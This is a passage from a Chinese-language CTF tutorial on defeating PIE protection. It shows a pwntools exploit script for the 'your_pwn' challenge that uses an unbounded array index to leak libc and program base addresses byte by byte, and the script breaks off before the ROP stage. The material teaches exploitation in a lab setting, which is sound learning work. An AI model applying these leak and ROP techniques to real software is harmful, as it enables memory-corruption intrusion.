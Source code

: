```
        p.close()
        print e
```

可以很快的得到爆破的结果

[![](https://s2.ax1x.com/2019/04/30/EGub9A.png)](https://s2.ax1x.com/2019/04/30/EGub9A.png)



## 二、泄露地址

开启PIE保护的话影响的是程序加载的基地址，不会影响指令间的相对地址，因此我们如果能够泄露出程序或者libc的某些地址，我们就可以利用偏移来构造ROP

以国赛your_pwn作为例子，该程序保护全开，漏洞点在sub_B35函数，index索引没有控制大小，所以导致任意地址读和任意地址写。

泄露libc地址和泄露程序基地址的方法是在main函数栈帧中有一个__libc_start_main+231和push r15，可以通过泄露这两个地址计算出libc基地址和程序加载基地址

[![](https://s2.ax1x.com/2019/04/30/EGuLct.png)](https://s2.ax1x.com/2019/04/30/EGuLct.png)

exp：（需要用到LibcSearcher）

```
#coding:utf-8
from pwn import *
from LibcSearcher import *
context.log_level = 'debug'
context.terminal = ['deepin-terminal', '-x', 'sh' ,'-c']
r = process("./pwn")

__libc_start_main_231_offset = 0x150+296

r.recvuntil("name:")
r.sendline("radish")
__libc_start_main_231_addr = ""

# leak __libc_start_main_231_addr
for x in range(8):
    r.recvuntil("input indexn")
    r.sendline(str(__libc_start_main_231_offset+x))
    r.recvuntil("(hex) ")
    data = r.recvuntil("n",drop=True)
    if len(data)&gt;2:
        data = data[-2:]
    elif len(data)==1:
        data = "0"+data
    __libc_start_main_231_addr = data+__libc_start_main_231_addr
    r.recvuntil("input new value")
    r.sendline("0")
log.info("__libc_start_main_231_addr -&gt;&gt; "+__libc_start_main_231_addr)
__libc_start_main_231_addr = eval("0x"+__libc_start_main_231_addr)


push_r15_offset = 0x150+288
push_r15_addr = ""
for x in range(8):
    r.recvuntil("input indexn")
    r.sendline(str(push_r15_offset+x))
    r.recvuntil("(hex) ")
    data = r.recvuntil("n",drop=True)
    if len(data)&gt;2:
        data = data[-2:]
    elif len(data)==1:
        data = "0"+data
    push_r15_addr = data+push_r15_addr
    r.recvuntil("input new valuen")
    r.sendline("0")
```